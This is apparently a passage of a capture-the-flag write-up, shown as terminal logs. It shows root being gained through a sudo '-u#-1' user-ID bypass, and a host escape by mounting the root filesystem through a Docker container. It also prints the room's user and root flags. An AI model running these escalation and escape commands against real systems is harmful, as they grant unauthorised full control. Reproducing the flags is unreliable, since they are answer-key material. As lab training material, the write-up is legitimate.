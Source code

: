 ```bash

User robert may run the following commands on ec96850005d6:
    (ALL, !root) NOPASSWD: /bin/bash
robert@ec96850005d6:~$ ls
robert.txt
robert@ec96850005d6:~$ cat robert.txt
You shall not pass from here!!!

I will not allow ICA to take over my world.
```

<p>linpeas.sh</p>

```bash
robert@ec96850005d6:~$ sudo -u#-1 /bin/bash
root@ec96850005d6:~# cd /root
root@ec96850005d6:/root# ls
success.txt  user.txt
root@ec96850005d6:/root# cat user.txt
user{620fb94d32470e1e9dcf8926481efc96}
root@ec96850005d6:/root# cat success.txt
47 you made it!!!

You have made it, Robert has been taught a lesson not to mess with ICA.
Now, Return to our Agency back with some safe route.
All the previous door's have been closed.

Good Luck Amigo!
```

<p>linpeas.sh</p>

<p>4.11. What is root.txt?<br>
<code>root{62ca2110ce7df377872dd9f0797f8476}</code></p>

```bash
root@ec96850005d6:/root# cat /proc/1/cgroup
12:hugetlb:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
11:rdma:/
10:cpu,cpuacct:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
9:pids:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
8:freezer:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
7:blkio:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
6:cpuset:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
5:memory:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
4:perf_event:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
3:devices:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
2:net_cls,net_prio:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
1:name=systemd:/docker/ec96850005d6cf609fadbeaef4a7dbdcad5108f5c319c2f69bc9badf9bc2fbdb
0::/system.slice/containerd.service
root@ec96850005d6:/root# find / -name '*docker*' 2>/dev/null
/run/docker.pid
/run/docker
/run/docker.sock
/run/systemd/units/invocation:docker.service
/tmp/docker
/usr/share/vim/vim80/ftplugin/dockerfile.vim
/usr/share/vim/vim80/syntax/dockerfile.vim
...
root@ec96850005d6:/root# /tmp/docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
mangoman            latest              b5f279024ce0        4 years ago         213MB



root@ec96850005d6:/root# /tmp/docker run -it -v /:/host/ mangoman chroot /host/ bash
```